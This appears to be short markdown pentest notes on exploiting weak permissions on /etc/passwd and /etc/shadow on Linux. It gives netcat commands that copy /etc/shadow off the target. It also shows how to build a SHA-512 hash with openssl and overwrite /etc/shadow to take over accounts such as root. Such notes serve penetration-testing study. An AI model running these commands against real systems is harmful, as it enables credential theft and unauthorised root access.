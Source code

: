 ### Weak File Permission
Suppose I have permission to read and write sensitive files like /etc/passwd(contains username),/etc/shadow(contains password hash)
then I can read the users and password of root or others users.
#### File permission check command
-> ls -al
#### Take advantages of write file.
We can replace the hash of any users to our known password.To do that we can copy the /etc/shadow file and after modifying we can also placed the file again.
#### Coping file from target to host machine.
We use netcat listener in target 
-> nc -nvlp 4444 < /etc/shadow
In our host machine to start 
-> nc ip_of_the_target 4444 >shadow
The above command copy a file name shadow.We can here modify the contain using vim and nano editor.

#### Making Hash
-> openssl passwd -6 hello
The above command make a hash for hello format SHA-512-based crypt.

#### Transfer the modify file into target
In our host machine we run the following command
-> nc ip_of_the_targer 4444 < shadow
In target machine
nc -nvlp 4444 > /etc/shadow



